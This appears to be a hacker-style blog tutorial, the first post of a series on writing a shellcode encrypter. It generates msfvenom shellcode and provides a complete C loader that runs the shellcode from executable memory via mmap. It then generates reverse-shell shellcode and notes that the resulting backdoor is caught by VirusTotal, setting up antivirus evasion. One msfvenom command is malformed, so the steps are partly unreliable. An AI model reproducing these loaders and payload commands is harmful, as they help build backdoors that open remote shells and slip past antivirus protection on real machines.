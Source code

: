 ```yaml
---
layout: post
title:  "Writing a Custom Shellcoder Encrypter - First Post by Zero++;" 
---
```


In this blogpost we will write an custom Shellcode Cryptor in go. 

## But what exactly is Shellcode?
Shellcode is a combination of binary instruction that will be executed on cpu.
Shellcode can be used for everything, to spawn a reverse shell, to execute a program, to obtain a file descriptor or whatever.
We 1337-heckers use Shellcode because its independent, minimalistic, easy to hide and obfuscate and also perfect to inject into processes.
Shellcode can be written by Hand which is very difficult and not recommended by me, i would recommend to extract Shellcode from Assembly or any compiled programs.  

## Requirements to follow this Blog
This tutorial is for Linux but the Shellcode encoding works same on any Operating System, only the process of execution is different.
In this tutorial we will use Metasploit's msfvenom to generate the Shellcode, C and mmap (a Linux systemcall) to make the Shellcode executable.
Shellcode itself is not Executable, data has to be in a specific file format like ELF (used by Unix and Linux for binaries, shared libraries etc.) or the more famous one PE (Portable Executable the file format used by windows for .exe and .dll files) to be executable. Thats why we will use C to make our Shellcode executable inside our program. I highly recommend to use gcc (the gnu compiler collection) or clang to compile your C Code. The go toolchain is also required.


## Generating our first Shellcode  
In this blogpost we will use ```/tmp/blog/``` as workspace.
We will generate Unencrypted Shellcode in C format (later we will use the raw format).
The Shellcode we will generate with msfvenom will execute the "ls" program.
The -b option is for avoiding bytes, in Shellcoding on **x86** we always have to avoid 
NULL-BYTES because it will make our Shellcode stop working (i will not go into depth here).
With specifying ``` -f c ``` we use the C format, it will output a C-bytearray which is just a normal array and can easily just get copied and pasted.  

```bash
# create and navigate to workspace 
$ sudo su
$ mkdir /tmp/blog
$ cd /tmp/blog
# generate and show Shellcode 
$ msfvenom -p linux/x86/exec CMD="ls" -f -b "\x00" c -o raw.txt 
$ cat raw.txt

```
# Executing the Shellcode in C
Now copy the output of ```cat raw.txt``` into the C code down below here and replace your output with the "bytes" array", the has to be renamed to "bytes".
After its done it should look like this.

```c
#include <stdio.h>    /* standard input/output */
#include <string.h>   /* used for memcpy */
#include <sys/mman.h> /* header for mmap syscall and flags */

unsigned char bytes[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73"
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00"
"\x00\x6c\x73\x00\x57\x53\x89\xe1\xcd\x80";

int main() {
	/* allocate a memory map */
	void* region = mmap(NULL, 

			sizeof(bytes),
			PROT_WRITE | PROT_EXEC,
			MAP_ANONYMOUS | MAP_PRIVATE,
			-1,
			0);
	/* check for error */
	if(region == MAP_FAILED) {
		perror("mmap");
		return 1;
	}
	
	/* copy shellcode into allocated memory page*/
	memcpy(region, bytes, sizeof(bytes));
	
	/* debug message */
	printf("executing %d bytes shellcode using mmap system call\n", sizeof(bytes));

	/* executing the shellcode via function pointer */
	((int(*)())region)();
	
	/* deallocate the memory */
	munmap(region, sizeof(bytes));
	return 0;
}
```

## Notes and Compiling the Program
This blog is not a C course you already should be familiar with the C language.
I will compile the program with the following command 
```gcc -m32 file.c -o runme && ./runme```
The -m32 option stands basically for 32 bit make sure you have gcc-multilib installed to be able to use the 32-bit headers. After Compiling and 
executing the program we should get following output:
```bash
executing 39 bytes shellcode using mmap system call
file.c	raw.txt  runme
```
as we see the c code and the Shellcode execute "ls", thats why it listed the files down below there.

## Generating Reverse-Shell-Shellcode with msfvenom
Now we will generate Shellcode which will spawn a Reverse-Shell.
To run the Shellcode you have todo the same as before, just copy the output, paste, rename the array, compile and run.
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=8089 -b "\x00" -f c -o raw.txt 
```
For some reason msfvenom used shikata_ga_nai, but i didnt specify to use it which was really suprising for me. If we now upload the backdoor to VirusTotal it will be detected.
![Drag Racing](images/crp.png)

















